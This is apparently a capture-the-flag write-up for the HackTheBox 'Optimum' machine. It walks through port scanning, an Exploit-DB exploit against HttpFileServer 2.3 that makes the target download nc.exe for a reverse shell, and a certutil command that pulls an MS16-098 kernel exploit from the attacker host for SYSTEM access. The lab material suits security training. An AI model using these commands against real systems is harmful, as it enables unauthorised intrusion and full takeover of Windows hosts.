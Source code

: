 
# HackTheBox : Optimum

This is a simple Windows machine running `HttpFileServer 2.3` which is vulnerable to remote code execution. The privelege escalation is quite simple with using kernel exploit as it seems the only way.

## Information Gathering

### Port Scan

```zsh
nmap -sS -sC -v -p- 10.10.10.8
```
> Try running -sC later to save time.

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 01:38 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating Ping Scan at 01:38
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 01:38, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:38
Completed Parallel DNS resolution of 1 host. at 01:38, 0.00s elapsed
Initiating SYN Stealth Scan at 01:38
Scanning 10.10.10.8 [65535 ports]
Discovered open port 80/tcp on 10.10.10.8
SYN Stealth Scan Timing: About 5.79% done; ETC: 01:47 (0:08:25 remaining)
SYN Stealth Scan Timing: About 17.12% done; ETC: 01:44 (0:04:55 remaining)
Stats: 0:01:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 25.66% done; ETC: 01:43 (0:03:49 remaining)
SYN Stealth Scan Timing: About 38.19% done; ETC: 01:42 (0:02:56 remaining)
SYN Stealth Scan Timing: About 47.26% done; ETC: 01:43 (0:02:35 remaining)
SYN Stealth Scan Timing: About 59.56% done; ETC: 01:42 (0:01:55 remaining)
SYN Stealth Scan Timing: About 73.21% done; ETC: 01:42 (0:01:13 remaining)
SYN Stealth Scan Timing: About 81.33% done; ETC: 01:43 (0:00:57 remaining)
Completed SYN Stealth Scan at 01:43, 298.90s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 01:43
Completed NSE at 01:43, 7.29s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /

NSE: Script Post-scanning.
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 307.18 seconds
           Raw packets sent: 131270 (5.776MB) | Rcvd: 199 (8.740KB)

```

## Enummeration 

### Discovery

From the nmap we could determine there was only a webapp at port 80.I started enumerating it.
```gobuster``` didnot give any results. 

![Webapp at port 80](./images/webapp.png)

On a little more enumeration. I found a basic login page but since we have no usernames, I just tried a few default credentials and that is all. I simply started looking more about this 
```HttpFileServer 2.3```


```zsh
searchsploit Rejetto
```
![searchsploit](./images/searchsploit.png)

I used the one highlighted in the picture above i.e. ```39161.py```. 

Now, on reading how to use the exploit,the following instructions stood out. 


>EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
> You may need to run it multiple times for success!

**What is the exploit doing ?**

Mindlessly trying out exploits in not something which will take you a long way. Let's try to break it down a bit. Please open the exploit side by side to follow what I am saying.

- ```vbs``` variable is basically downloading the nc.exe which we will host at our kali machine
- ```vbs2``` variable is using cscript.exe which is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt
- ```vbs3``` varaible is basically running nc .exe with the cmd.exe, our local ip and port as arguments so we can get the reverse shell back

## Exploitation

Now, that we have chosen out exploit, let's get cracking. Move nc.exe into your working dir.
>Note If you donot have seclists installed.
>Here is the link https://github.com/danielmiessler/SecLists
>if you are using kali linux then this should do the trick ```apt -y install seclists```


Copy the nc.exe to your work folder 

```zsh
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
Copy the exploit to your work folder

```zsh
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
```
Edit the exploit according to your LHOST and LPORT in ```ip_addr``` and ```local_port```

![Edit the exploit](./images/exploit_edit.png)



Start the python server where you have the nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Start the listener port specified in the exploit

```zsh
nc -lvnp 443
```
Execute the exploit

```zsh
python 39161.py 10.10.10.8 80
```
Meanwhile, you can ensure that your exploit is working by this

![File downloaded](./images/hosted_nc.exe.png)

Now when you look at the ```port 443``` listener. We will have the user(kostas) shell.

![User Shell](./images/intial_shell.png)

Accessing the first flag.

***User Flag***

![User Flag](./images/userflag.png)

If I try to open the Administrator folder, it will say "Access denied". So, we have to do some privilege escalation

## Privilege Escalation

Whenever I have an intial shell, I always check my privileges and system info

```cmd
whoami /priv
system info
```
![System information](./images/systeminfo.png)

We note that OS and build versions so as to find a proper priv-esc method.

I try to avoid using kernel exploits generally, I did enumerate it manually as much as I could and did not find anything juicy, So I tried using the ```windows exploit suggester```

>Here is the link for download : https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**A lot of newer kali had issues with it, so you can try the following**

```zsh 
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
```
Execute this in the folder where you downloaded the above file.

```zsh
python get-pip.py
```

Then,
```zsh
 pip install xlrd
```
Now, you are good to go.

Copy the systeminfo output and paste it in the folder of ```Windows exploit suggester```

```zsh
python windows-exploit-suggester.py --update
```
An xls db would be downloaded use it as a refernce for the db to search against

```zsh
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database  2020-05-04-mssb.xls
```
![Windows Exploit Suggester](./images/exploit_suggester.png)

Now after reading through a few, I decided to got with ```MS16-098```.

To download the binary for this exploit you can download it from here :
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

Or you can get it from the repo mentioned inside the exploit.I have added the exe in my github link for this box.
Now we have to upload this binary. Place it in the same folder where you hosted the nc.exe file and we will use certutil to upload

```cmd
certutil.exe -urlcache -split -f http://10.10.14.8:80/41020.exe 41020.exe
```
Simply execute it and you will have a shell with System privilges

![Shell with System privileges](./images/system_shell.png)

***Root Flag***

![Root Flag](./images/rootflag.png)

That is all for this box. See you in the next one which is "Bastard".
